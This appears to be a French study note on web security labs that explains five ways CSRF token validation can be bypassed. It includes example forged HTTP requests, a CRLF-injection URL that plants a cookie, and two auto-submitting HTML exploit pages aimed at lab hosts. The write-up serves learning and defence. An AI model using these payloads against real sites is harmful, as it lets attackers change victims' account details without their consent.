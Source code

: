 > Contournement de la validation du jeton CSRF

Un jeton CSRF est une valeur unique, secrète et imprévisible, générée par l'application côté serveur et partagée avec le client. Lorsqu'il émet une requête pour effectuer une action sensible, comme l'envoi d'un formulaire, le client doit inclure le jeton CSRF correct. Dans le cas contraire, le serveur refusera l'action demandée.

> Correctement implémentés, les jetons CSRF protègent contre les attaques CSRF en empêchant un attaquant de créer une requête valide pour le compte de la victime. Comme l'attaquant n'a aucun moyen de prédire la valeur correcte du jeton CSRF, il ne pourra pas l'inclure dans la requête malveillante.

Les vulnérabilités CSRF surviennent généralement en raison d'une validation défectueuse des jetons CSRF on peut trouve:

## Validation of CSRF token depends on request method

(La validation du jeton CSRF dépend de la méthode de demande)

Certaines applications valident correctement le jeton lorsque la requête utilise la méthode POST, mais ignorent la validation lorsque la méthode GET est utilisée.

> Dans cette situation, l'attaquant peut passer à la méthode GET pour contourner la validation et lancer une attaque CSRF

> Si l’app vérifie le token **seulement** pour POST, un attaquant peut forcer une requête **GET** pour exécuter une action sans token.

```http
GET /email/change?email=pwned@evil-user.net 
HTTP/1.1 Host: vulnerable-website.com 
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```


## Validation of CSRF token depends on token being present

(La validation du jeton CSRF dépend de la présence du jeton)

Certaines applications valident correctement le jeton lorsqu'il est présent, mais ignorent la validation si le jeton est omis.

> Dans cette situation, l'attaquant peut supprimer l'intégralité du paramètre contenant le jeton (pas seulement sa valeur) pour contourner la validation et lancer une attaque CSRF

> Si l’app **n’ouvre** la vérification que quand le paramètre token existe, un attaquant peut appeler l’endpoint **sans** ce paramètre (le supprimer) et contourner la protection.

```http
POST /email/change HTTP/1.1 Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 25 
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm 

email=pwned@evil-user.net
```


## CSRF token is not tied to the user session

(Le jeton CSRF n'est pas lié à la session utilisateur)

Certaines applications ne vérifient pas que le jeton appartient à la même session que l'utilisateur à l'origine de la requête. Elles gèrent alors un pool global de jetons qu'elles ont émis et acceptent tout jeton qui y figure.

> Dans cette situation, l'attaquant peut se connecter à l'application en utilisant son propre compte, obtenir un jeton valide, puis transmettre ce jeton à l'utilisateur victime dans son attaque CSRF

> Si le token n’est **pas lié** à la session, un attaquant peut s’authentifier, récupérer un token valide et l’utiliser contre une victime.

> Cela peut arrive que le token n'es utiliser que une seule fois


## CSRF token is tied to a non-session cookie

(Le jeton CSRF est lié à un cookie non-session)

Dans une variante de la vulnérabilité précédente, certaines applications associent le jeton CSRF à un cookie, mais pas à celui utilisé pour le suivi des sessions. Ce problème peut facilement se produire lorsqu'une application utilise deux infrastructures distinctes, l'une pour la gestion des sessions et l'autre pour la protection CSRF, qui ne sont pas intégrées

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

Cette situation est plus difficile à exploiter, mais reste vulnérable. **Si le site web présente un comportement permettant à un attaquant d'installer un cookie dans le navigateur de la victime, une attaque est possible.**

> L'attaquant peut se connecter à l'application avec son propre compte, obtenir un jeton valide et le cookie associé, exploiter le comportement d'installation de cookie pour installer son cookie dans le navigateur de la victime et lui transmettre son jeton lors de son attaque CSRF.

##### Explication plus simplet - Le contexte

Le jeton CSRF est censé protéger contre les attaques où un site malveillant force un utilisateur authentifié à effectuer une action.  
**Problème ici :** le token CSRF est stocké dans un **cookie séparé** qui **n’est pas lié à la session**.

Exemple :

```
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv
```

- `session=...` → suivi de la session de l’utilisateur.    
- `csrfKey=...` → token CSRF, mais pas lié à cette session.

> **Conséquence :** le token CSRF peut être valide **même si ce n’est pas le token de l’utilisateur connecté**.

##### Comment un attaquant peut exploiter ça

1. L’attaquant se connecte à l’application avec **son propre compte** → il reçoit **un token CSRF valide** (`csrf`) associé à son cookie (`csrfKey`).

2. Il trouve un moyen d’**installer son cookie `csrfKey`** dans le navigateur de la victime (via un script, un sous-domaine vulnérable, etc...).

```
https://target.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```

3. Quand la victime visite le site ou clique sur un lien malveillant, le navigateur envoie **le cookie de l’attaquant** + **le token de l’attaquant** → le serveur accepte la requête comme si c’était légitime.

> Résultat : la victime exécute des actions au nom de l’attaquant ou de son propre compte.

```html
<html>
  <body>
    <form action="https://0a5c00600452448e8309698600ef0014.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="dipeuaberthold&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="JcY9IeoWr308wemxpp0q3tAG3DdeKeFY" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a5c00600452448e8309698600ef0014.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=lZDYzsBCRJQnCeuVFAwSQaV3TnefT2jH%3b%20SameSite=None" onerror="document.forms[0].submit()">

  </body>
</html>
```

##### Conclusion

- Même si le token existe et semble “valide”, **il n’est pas associé à la bonne session**.
- Si un attaquant peut placer son cookie dans le navigateur de la victime, il peut **contourner la protection CSRF**.

## CSRF token is simply duplicated in a cookie

(Le jeton CSRF est simplement dupliqué dans un cookie)

Dans une autre variante de la vulnérabilité précédente, certaines applications ne conservent aucun enregistrement côté serveur des jetons émis, mais dupliquent chaque jeton dans un cookie et un paramètre de requête. Lors de la validation de la requête suivante, l'application vérifie simplement que le jeton soumis dans le paramètre de requête correspond à la valeur soumise dans le cookie.

Cette défense, parfois appelée « double soumission », contre le CSRF est préconisée car elle est simple à mettre en œuvre et évite tout état côté serveur :

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

> Dans ce cas, l'attaquant peut à nouveau lancer une attaque CSRF si **le site web propose une fonctionnalité de paramétrage des cookies**. 
> 
> Dans ce cas, l'attaquant n'a pas besoin d'obtenir son propre jeton valide. Il lui suffit d'inventer un jeton (éventuellement au format requis, si celui-ci est vérifié), d'exploiter le comportement de paramétrage des cookies pour placer son cookie dans le navigateur de la victime et de lui transmettre son jeton lors de son attaque CSRF.

```http
<html>
  <body>
    <form action="https://0a2b009b043071d5811e673100630035.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned@pwned.pwned" />
      <input type="hidden" name="csrf" value="2Rn2fU5X8B1OTIb5W2DmsUj6NMhwqiFR" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a2b009b043071d5811e673100630035.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=2Rn2fU5X8B1OTIb5W2DmsUj6NMhwqiFR%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

